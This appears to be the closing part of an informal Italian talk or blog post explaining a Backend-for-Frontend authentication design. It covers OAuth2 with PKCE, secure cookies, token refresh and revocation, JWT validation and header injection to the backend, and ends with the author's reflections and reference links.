**OAuth2 + PKCE**: Implementa il flusso completo con tutte le protezioni. State parameter per prevenire CSRF, nonce per prevenire replay, PKCE per proteggere l'authorization code. Non ho tagliato angoli.

**Cookie sicuri**: Tutti i cookie hanno gli attributi giusti. I token di autenticazione usano `SameSite=strict` per massima protezione. I cookie del flusso OAuth (state, nonce, code_verifier) usano `SameSite=lax` per permettere il callback dall'identity provider.

**Token management**: Il BFF gestisce automaticamente il refresh dei token. Se l'access token sta per scadere (configurabile, default 5 minuti prima), lo refresha in modo trasparente. I refresh token vengono rotated ad ogni uso. Se rileva riuso, revoca tutto.

**Proxy**: Tutte le richieste a `/api/*` vengono proxate al backend. Prima di proxare, il BFF:

1. Verifica che i token siano validi
2. Estrae informazioni dall'ID token
3. Inietta header HTTP con queste informazioni

Il backend riceve header tipo:

- `X-User-Sub: user-123`
- `X-User-Email: user@example.com`
- `X-User-Custom-Groups: admin,developers` (se configurato)

Il backend non deve fare niente di complesso. Basta leggere gli header. Niente validazione JWT, niente chiamate a JWKS, niente gestione OAuth. Solo `if (req.headers['x-user-sub']) { ... }`.

**Security**: Ogni JWT viene verificato:

- Firma con chiavi pubbliche da JWKS
- Algoritmo esplicito (configurabile)
- Issuer validation
- Audience validation
- Expiration validation
- Sub claim matching tra ID token e access token

E quando l'utente fa logout, il BFF revoca i token sull'identity provider. Non solo cancella i cookie locali, ma dice all'IdP "questi token non sono più validi". Questo è importante se l'utente ha sessioni su dispositivi multipli.

### BFF Flow



1. **State**: Random string generated by BFF stored in HTTP-only cookie and sent to Identity Provider
2. **Code Verifier**: Random string generated by BFF stored in HTTP-only cookie
3. **Code Challenge**: SHA-256 hash of code verifier sent to Identity Provider in authorization URL
4. **Login**: BFF redirects to the Identity Provider
   - `state` and `code_challenge` sent to the Identity Provider in authorization URL
   - The Identity Provider stores both values
5. **Login Callback**: BFF validates state and exchanges code for tokens
   - Validates: URL `state` parameter === `oauth_state` cookie (CSRF protection)
   - Sends `code_verifier` to Identity Provider during token exchange
   - Identity Provider validates: SHA256(code_verifier) === stored code_challenge
   - If both validations pass: Issue tokens
   - If either fails: Reject request

## Demo

Ok, basta teoria, penso di avervi annoiato abbastanzza. Vediamo il BFF in azione. Il frontend in tutto questo? Fa solo `fetch('/api/users')`. Non sa niente di token, refresh, header... niente. È bello nella sua semplicità a parer mio.

## Conclusioni

Ok ragazzi, ricapitoliamo. Abbiamo parlato di un sacco di cose oggi: XSS, CSRF, MITM, cookie, OAuth, PKCE, JWT, vulnerabilità, attacchi, difese...
Per me e' stato abbastanza difficile entrare in ogni aspetto, e penso di non averne studiato neanche l'un percento. Ci sono così tanti dettagli, tanti modi di sbagliare. Ho visto (e fatto) tutti questi errori. localStorage per i token? Fatto. Non validato l'expiration? Confuso ID token e access token? Fatto. E quindi dopo averne avuto un immagine un po piu chiara l'ho messa qua in una presentazione ed in un progetto.

## References

- [Which OAuth 2.0 Flow Should I Use?](https://auth0.com/docs/get-started/authentication-and-authorization-flow/which-oauth-2-0-flow-should-i-use)
- poi ci sono le spiegazioni per ogni flusso
- per il posto dove metterli [Questo](https://auth0.com/docs/libraries/auth0-single-page-app-sdk) dice "Storing tokens in browser local storage..." con delle cose che si possono includere come concetti
- [Microsoft OAuth 2.0 authorization code flow](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-auth-code-flow)
  - qua c'e' anche la nota su client_secret (which can store the client_secret securely)
